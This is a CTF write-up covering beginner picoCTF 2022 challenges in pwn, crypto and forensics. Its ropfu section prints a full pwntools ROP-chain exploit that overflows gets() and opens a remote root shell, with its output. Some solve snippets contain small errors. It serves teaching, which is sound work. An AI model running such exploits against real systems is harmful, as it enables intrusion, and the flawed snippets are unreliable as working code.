



import Challenge from '@/components/mdx/Challenge.astro'
import Callout from '@/components/mdx/Callout.astro'
import MorseAudio from './assets/morse_chal.wav'

This is a series of selected challenges from the [picoCTF 2022](https://picoctf.org/) competition which are more catered towards beginner players. Through these writeups, I hope you can find takeaways to help you in your future CTFs!

---

## Binary Exploitation

### basic-file-exploit

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['Will Hong']}
  category="Binary Exploitation (pwn)"
  points={100}
  files={['program-redacted.c']}
>
  The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat:  
  `$ nc saturn.picoctf.net [PORT]{:ansi}`
</Challenge>

<Callout variant="warning">
  Warning: This is an **instance-based** challenge. Port info will be redacted alongside the last eight characters of the flag, as they are dynamic.
</Callout>

Let's connect to the server using `netcat` to see what's going on:

```ansi
$ nc saturn.picoctf.net [PORT]
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
```

Since this is the binary exploitation category, we'll be looking for a vulnerability in the source code that allows us to either break or control the program at a lower level. Let's view the attachment `program-redacted.c`:

```c title="program-redacted.c" caption="Inspecting provided source code" showLineNumbers
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <stdint.h>
#include <ctype.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60


static const char* flag = "[REDACTED]";

static char data[10][100];
static int input_lengths[10];
static int inputs = 0;


int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;
    
    if( l <= 0 )
    {
      printf("'l' for tgetinput must be greater than 0\n");
      return -2;
    }
    
    
    /* Empty the FD Set */
    FD_ZERO(&input_set );
    /* Listen to the input descriptor */
    FD_SET(STDIN_FILENO, &input_set);

    /* Waiting for some seconds */
    timeout.tv_sec = WAIT;    // WAIT seconds
    timeout.tv_usec = 0;    // 0 milliseconds

    /* Listening for input stream for any activity */
    ready_for_reading = select(1, &input_set, NULL, NULL, &timeout);
    /* Here, first parameter is number of FDs in the set, 
     * second is our FD set for reading,
     * third is the FD set in which any write activity needs to updated,
     * which is not required in this case. 
     * Fourth is timeout
     */

    if (ready_for_reading == -1) {
        /* Some error has occured in input */
        printf("Unable to read your input\n");
        return -1;
    } 

    if (ready_for_reading) {
        read_bytes = read(0, input, l-1);
        if(input[read_bytes-1]=='\n'){
        --read_bytes;
        input[read_bytes]='\0';
        }
        if(read_bytes==0){
            printf("No data given.\n");
            return -4;
        } else {
            return 0;
        }
    } else {
        printf("Timed out waiting for user input. Press Ctrl-C to disconnect\n");
        return -3;
    }

    return 0;
}


static void data_write() {
  char input[100];
  char len[4];
  long length;
  int r;
  
  printf("Please enter your data:\n");
  r = tgetinput(input, 100);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  while (true) {
    printf("Please enter the length of your data:\n");
    r = tgetinput(len, 4);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
  
    if ((length = strtol(len, NULL, 10)) == 0) {
      puts("Please put in a valid length");
    } else {
      break;
    }
  }

  if (inputs > 10) {
    inputs = 0;
  }

  strcpy(data[inputs], input);
  input_lengths[inputs] = length;

  printf("Your entry number is: %d\n", inputs + 1);
  inputs++;
}


static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}


int main(int argc, char** argv) {
  char input[3] = {'\0'};
  long command;
  int r;

  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");

  while (true) {   
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
    } else if (command == 1) {
      data_write();
      puts("Write successful, would you like to do anything else?");
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
    } else if (command == 3) {
      return 0;
    } else {
      puts("Please type either 1, 2 or 3");
      puts("Maybe breaking boundaries elsewhere will be helpful");
    }
  }

  return 0;
}
```

In the midst of this complex program, we need to figure out where the flag is, and how to trigger it to print:

```c title="program-redacted.c" caption="Inspecting provided source code" showLineNumbers{16}
static const char* flag = "[REDACTED]";
// [!code skip:16:142]
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```

The flag is defined in line 13 as `"[REDACTED]"{:c}`, which will be the actual location on the remote server. From lines 139-143 it looks like a condition needs to be met in order to `puts(){:c}` the flag, which writes a string to the output stream `stdout`.

Google defines `strtol(){:c}` as a function that "converts the initial part of the string in **str** to a **long int** value according to the given **base**". To break it, we need to input something that is **unconvertible into a long integer**. In this case, it would be a string, as they can't be properly coalesced into long integers!

This if statement is located within a function called `data_read(){:c}`. Let's see where it's called in the program:

```c title="program-redacted.c" caption="Inspecting provided source code" showLineNumbers{179}
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

After we write some data with the command `1`, We should be pressing the command `2` to read from the stored data. Once it prompts us to "enter the entry number of your data", we'll send a string instead to break it. Let's head back to the `netcat` and test it out:

```ansi showLineNumbers /picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_[REDACTED]}/
$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
> 1
1
Please enter your data:
> hello
hello
Please enter the length of your data:
> 5
5
Your entry number is: 1
Write successful, would you like to do anything else?
> 2
2
Please enter the entry number of your data:
> "NO!"
"NO!"
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_[REDACTED]}
```

---

### CVE-XXXX-XXXX

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['Mubarak Mikail']}
  category="OSINT"
  points={100}
>
  Enter the CVE of the vulnerability as the flag with the correct flag format - `picoCTF{CVE-XXXX-XXXXX}` - replacing `XXXX-XXXXX` with the numbers for the matching vulnerability. The CVE we're looking for is the first recorded remote code execution (RCE) vulnerability in 2021 in the Windows Print Spooler Service, which is available across desktop and server versions of Windows operating systems. The service is used to manage printers and print servers.
</Challenge>

This is a really trivial challenge. You can actually google "first recorded remote code execution (RCE) vulnerability in 2021" and it will be the first result:



<Callout>
  **CVE-XXXX-XXXX**: `picoCTF{CVE-2021-34527}`
</Callout>

---

### ropfu

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['Sanjay C.', 'Lt. "Syreal" Jones']}
  category="Binary Exploitation (pwn)"
  points={300}
  files={['vuln', 'vuln.c']}
>
  What's ROP?  
  Can you exploit the following program to get the flag? Download source.  
  `nc saturn.picoctf.net [PORT]{:ansi}`
</Challenge>

<Callout variant="warning">
  Warning: This is an **instance-based** challenge. Port info will be redacted alongside the last eight characters of the flag, as they are dynamic.
</Callout>

```ansi
$ checksec vuln
[*] '/home/kali/ctfs/pico22/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Hey, look: a classic "ROP" (return-oriented programming) challenge with the source code provided! Let's take a look:

```c title="vuln.c" caption="Inspecting provided source code" showLineNumbers
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

The source only provides us with one vulnerable function: `gets(){:c}`. I've gone over this extremely unsafe function multiple times now, so feel free to read [MITRE's Common Weakness Enumeration page](https://cwe.mitre.org/data/definitions/242) if you don't know why. There is also no convenient function with `execve("/bin/sh", 0, 0){:c}` in it (for obvious reasons), so we will have to insert our own shellcode.

Although we could totally solve this the old-fashioned way (as John Hammond did in [his writeup](https://www.youtube.com/watch?v=c7wNN8qgxAA)), we can use the power of automation with a tool called [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)! Let's try using it here to **automatically** build the ROP-chain for us, which will eventually lead to a [syscall](https://en.wikipedia.org/wiki/System_call):

```ansi
$ ROPgadget --binary vuln --ropchain

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

    [+] Gadget found: 0x8059102 mov dword ptr [edx], eax ; ret
    [+] Gadget found: 0x80583c9 pop edx ; pop ebx ; ret
    [+] Gadget found: 0x80b074a pop eax ; ret
    [+] Gadget found: 0x804fb90 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

    [+] Gadget found: 0x804fb90 xor eax, eax ; ret
    [+] Gadget found: 0x808055e inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

    [+] Gadget found: 0x8049022 pop ebx ; ret
    [+] Gadget found: 0x8049e39 pop ecx ; ret
    [+] Gadget found: 0x80583c9 pop edx ; pop ebx ; ret

- Step 4 -- Syscall gadget

    [+] Gadget found: 0x804a3d2 int 0x80

- Step 5 -- Build the ROP chain
(omitted for brevity, will be in final script!)
```

Oh, wow. It generated the entire script for us (unfortunately in Python2), with only a few missing bits and bobs! The only things we need to manually configure now are the offset and remote connection. Since the `checksec` mentioned that there was a canary enabled, it looks like we'll have to manually guess the offset with the `$eip`:

```ansi
gef➤  shell python3 -q
>>> print('A'*28 + 'B'*4)
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
>>> 
gef➤  r
Starting program: /home/kali/ctfs/pico22/ropfu/vuln 
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd540  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0x80e5300  →  <_IO_2_1_stdin_+0> mov BYTE PTR [edx], ah
$edx   : 0xffffd560  →  0x80e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax]
$esp   : 0xffffd560  →  0x80e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax]
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x80e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$edi   : 0x80e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$eip   : 0x42424242 ("BBBB"?)
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x42424242
────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x42424242 in ?? (), reason: SIGSEGV
```

The offset is 28, as we've successfully loaded 4 hex `B`s into the `$eip`. Our last step is to set up the remote connection with [pwntools](https://docs.pwntools.com/en/stable/). Here is my final script:

```py title="solve.py" caption="Final script" showLineNumbers
#!/usr/bin/env python2
from pwn import *
from struct import pack

payload = 'A'*28

payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5060) # @ .data
payload += pack('<I', 0x41414141) # padding
payload += pack('<I', 0x080b074a) # pop eax ; ret
payload += '/bin'
payload += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5064) # @ .data + 4
payload += pack('<I', 0x41414141) # padding
payload += pack('<I', 0x080b074a) # pop eax ; ret
payload += '//sh'
payload += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5068) # @ .data + 8
payload += pack('<I', 0x41414141) # padding
payload += pack('<I', 0x0804fb90) # xor eax, eax ; ret
payload += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x08049022) # pop ebx ; ret
payload += pack('<I', 0x080e5060) # @ .data
payload += pack('<I', 0x08049e39) # pop ecx ; ret
payload += pack('<I', 0x080e5068) # @ .data + 8
payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5068) # @ .data + 8
payload += pack('<I', 0x080e5060) # padding without overwrite ebx
payload += pack('<I', 0x0804fb90) # xor eax, eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0804a3d2) # int 0x80

p = remote("saturn.picoctf.net", [PORT])
log.info(p.recvS())
p.sendline(payload)
p.interactive()
```

Let's run the script:

```ansi
$ python2 exp.py
[+] Opening connection to saturn.picoctf.net on port [PORT]: Done
[*] How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
[*] Switching to interactive mode
$ whoami
root
$ ls
flag.txt
vuln
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_[REDACTED]}$ █
```

I know the way of ROP-fu, old man. Your shell has been snatched.

---

## Cryptography

### basic-mod1

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['Will Hong']}
  category="Cryptography"
  points={100}
  files={['message.txt']}
>
  We found this weird message being passed around on the servers, we think we have a working decryption scheme.  
  Take each number mod 37 and map it to the following character set - 0-25 is the alphabet (uppercase), 26-35 are the decimal digits, and 36 is an underscore. Wrap your decrypted message in the picoCTF flag format (i.e. `picoCTF{decrypted_message}`)
</Challenge>

Let's go over what it's asking:

- Calculate `% 37` for each number
- Map each number to this specific charset:
- 0-25 = Uppercase alphabet (A-Z)
- 26-35 = Decimal digits (0-9)
- 36 = Underscore (`_`)

I was too lazy to learn Python and do that, so here it is in native Javascript:

```js title="solve.js" caption="Solve script" showLineNumbers
// Splitting into array
x = "54 211 168 309 262 110 272 73 54 137 131 383 188 332 [REDACTED]".split();
// Mod 37
y = x.map(x => x % 37);
z = [];
for (let i = 0; i < y.length; i++) {
    // Mapping to charset
    if (y[i] >= 0 && y[i] <= 25) {
      z.push(String.fromCharCode(y[i] + 'A'.charCodeAt(0)));
    } else if (y[i] >= 26 && y[i] <= 35) {
      z.push(y[i] - 26);
    } else if (y[i] == 36) {
      z.push("_");
    }
}
// Combine back to string
z = z.join("");
console.log(`picoCTF{${z}}`);
```

Looking back at the problem after I learned Python, here's a solution that's significantly cleaner:

```py title="solve.py" caption="Solve script" showLineNumbers
#!/usr/bin/env python3
import string
x = "54 211 168 309 262 110 272 73 54 137 131 383 188 332 [REDACTED]"
y = x.split()

a = string.ascii_uppercase + string.digits + "_"

# Insane list comprehension
z = [a[int(i) % 37] for i in y]
print("picoCTF{"+''.join(z)+"}")
```

Running the scripts:

```ansi
$ python3 solve.py
picoCTF{R0UND_N_R0UND_[REDACTED]}
```

---

### basic-mod2

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['Will Hong']}
  category="Cryptography"
  points={100}
>
  A new modular challenge! Take each number mod 41 and find the modular inverse for the result. Then map to the following character set: 1-26 are the alphabet, 27-36 are the decimal digits, and 37 is an underscore. Wrap your decrypted message in the picoCTF flag format (`picoCTF{decrypted_message}`).
</Challenge>

Let's go over what it's asking once again:

- Calculate `% 41` for each number
- Map each number to this specific charset:
- 1-26 = Uppercase alphabet (A-Z)
- 27-36 = Decimal digits (0-9)
- 37 = Underscore ("\_")

Here's a stupidly long Javascript snippet I made to solve this:

```js title="solve.js" caption="Solve script" showLineNumbers
// Splitting into array
x = "54 211 168 309 262 110 272 73 54 137 131 383 188 332 [REDACTED]".split();
// Mapping to % 41 with modular inverse of 41
y = x.map(x => x % 41).map(x => modInverse(x, 41));
z = [];

// Mapping to charset
for (let i = 0; i < y.length; i++) {
    if (y[i] >= 1 && y[i] <= 26) z.push(String.fromCharCode(y[i] + 64));
    else if (y[i] >= 27 && y[i] <= 36) z.push(y[i] - 27);
    else if (y[i] == 37) z.push("_");
}

console.log(`picoCTF{${z.join("")}}`);

// credit to: https://rosettacode.org/wiki/Modular_inverse
function modInverse(a, b) {
    a %= b;
    for (var x = 1; x < b; x++) {
        if ((a * x) % b == 1) {
            return x;
        }
    }
}
```

Running the script:

```ansi
$ python3 solve.py
picoCTF{1NV3R53LY_H4RD_[REDACTED]}
```

--- 

### credstuff

<Challenge
  solvers={[
    {
      name: 'MrTeaa',
      href: 'https://github.com/MrTeaa',
      avatar: 'https://github.com/MrTeaa.png',
    },
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['Will Hong', "Lt. 'Syreal' Jones"]}
  category="Cryptography"
  points={100}
  files={['leak.tar']}
>
  We found a leak of a blackmarket website's login credentials. Can you find the password of the user `cultiris` and successfully decrypt it?  
  The first user in `usernames.txt` corresponds to the first password in `passwords.txt`. The second user corresponds to the second password, and so on.
</Challenge>

We're initially provided a `leak.tar` archive. On extraction, we're presented with two files: `usernames.txt` and `passwords.txt`:

<div className="flex flex-col items-center justify-center gap-4 sm:flex-row">
```text title="usernames.txt"
engineerrissoles
icebunt
fruitfultry
celebritypentathlon
galoshesopinion
favorboeing
bindingcouch
...
```

```text title="passwords.txt"
CMPTmLrgfYCexGzJu6TbdGwZa
GK73YKE2XD2TEnvJeHRBdfpt2
UukmEk5NCPGUSfs5tGWPK26gG
kaL36YJtvZMdbTdLuQRx84t85
K9gzHFpwF2azPayAUSrcL8fJ9
rYrtRbkHvJzPmDwzD6gSDbAE3
kfcVXjcFkvNQQPpATErx6eVDd
...
```
</div>

Let's go to the username `cultiris`. The `-n` tag in `grep` will enable line numbers:

```ansi
$ grep -n "cultiris" usernames.txt
378:cultiris
```

Let's fine the equivalent line in `passwords.txt`:

```text highlight{4}
...
ARKadGaCZBc3ue4BfB7Vjwx83
CSYbRFVpJZNQJ4Jz3GmDsAa9Q
cvpbPGS{P7e1S_54I35_71Z3}
wTL8rTRNCkSyGP5AFsG5qK52y
9jyG4W6PnsAVuyx8MJkHKYtXV
...
```

On line 378 it looks like there's a flag obfuscated with shift cipher. Let's brute force this on [DCode](https://www.dcode.fr/caesar-cipher):

```text highlight{6}
🠞15 (🠜11)	ngamARD{A7p1D_54T35_71K3}
🠞1 (🠜25)	buoaOFR{O7d1R_54H35_71Y3}
🠞17 (🠜9)	leykYPB{Y7n1B_54R35_71I3}
🠞24 (🠜2)	exrdRIU{R7g1U_54K35_71B3}
🠞11 (🠜15)	rkeqEVH{E7t1H_54X35_71O3}
🠞13 (🠜13)	picoCTF{C7r1F_54V35_71M3}
```

---

### morse-code

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['Will Hong']}
  category="Cryptography"
  points={100}
  files={['morse_chal.wav']}
>
  Morse code is well known. Can you decrypt this?  
  Wrap your answer with `picoCTF{}`, put underscores in place of pauses, and use all lowercase.
</Challenge>

We're presented with a `morse_chal.wav` file:

<div className="my-4 flex items-center justify-center">
  <audio controls>
    <source src={MorseAudio} />
    Your browser does not support the audio element.
  </audio>
</div>

We could totally decode this by hand using [Audacity's](https://www.audacityteam.org/) visualizer, but that's super time-consuming. Instead, I opted for an automatic audio-based [Morse decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) online:



The program outputs `WH47 H47H 90D W20U9H7`. Following the conversion instructions, the final flag is:

<Callout>
  **morse-code**: `picoCTF{wh47_h47h_90d_w20u9h7}`
</Callout>

<Callout variant="remark">
  Fun fact: this string is a leetspoken version of "What hath God wrought", which was the first telegraphed message in Morse!
</Callout>

---

## Forensics

### Enhance!

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={["Lt. 'Syreal' Jones"]}
  category="Forensics"
  points={100}
  files={['drawing.flag.svg']}
>
  Download this image file and find the flag.
  <figure>
    <div class="max-w-72 mx-auto [&_img]:mb-0"></div>
    <figcaption class="text-center">drawing.flag.svg</figcaption>
  </figure>
</Challenge>

This is an SVG file, which stands for Scalable Vector Graphics. They consist of vectors, not pixels, and can be thought of as a collection of shapes on a Cartesian (x/y) plane. The code that creates such graphics can also be viewed on Google Chrome with <kbd>F12</kbd>:



Look up what we end up finding in the Source tab:

```html title="drawing.flag.svg" caption="SVG Code"
<tspan sodipodi:role="line" x="107.43014" y="132.08501" style="font-size:0.00352781px;line-height:1.25;fill:#ffffff;stroke-width:0.26458332;" id="tspan3748">p </tspan>
<tspan sodipodi:role="line" x="107.43014" y="132.08942" style="font-size:0.00352781px;line-height:1.25;fill:#ffffff;stroke-width:0.26458332;" id="tspan3754">i </tspan>
<tspan sodipodi:role="line" x="107.43014" y="132.09383" style="font-size:0.00352781px;line-height:1.25;fill:#ffffff;stroke-width:0.26458332;" id="tspan3756">c </tspan>
<tspan sodipodi:role="line" x="107.43014" y="132.09824" style="font-size:0.00352781px;line-height:1.25;fill:#ffffff;stroke-width:0.26458332;" id="tspan3758">o </tspan>
<tspan sodipodi:role="line" x="107.43014" y="132.10265" style="font-size:0.00352781px;line-height:1.25;fill:#ffffff;stroke-width:0.26458332;" id="tspan3760">C </tspan>
<tspan sodipodi:role="line" x="107.43014" y="132.10706" style="font-size:0.00352781px;line-height:1.25;fill:#ffffff;stroke-width:0.26458332;" id="tspan3762">T </tspan>
<tspan sodipodi:role="line" x="107.43014" y="132.11147" style="font-size:0.00352781px;line-height:1.25;fill:#ffffff;stroke-width:0.26458332;" id="tspan3764">F { 3 n h 4 n </tspan>
<tspan sodipodi:role="line" x="107.43014" y="132.11588" style="font-size:0.00352781px;line-height:1.25;fill:#ffffff;stroke-width:0.26458332;" id="tspan3752">c 3 d _ [R E D A C T E D] }</tspan>
```

<Callout>
  **Enhance!**: `picoCTF{3nh4nc3d_[REDACTED]}{:ansi}`
</Callout>
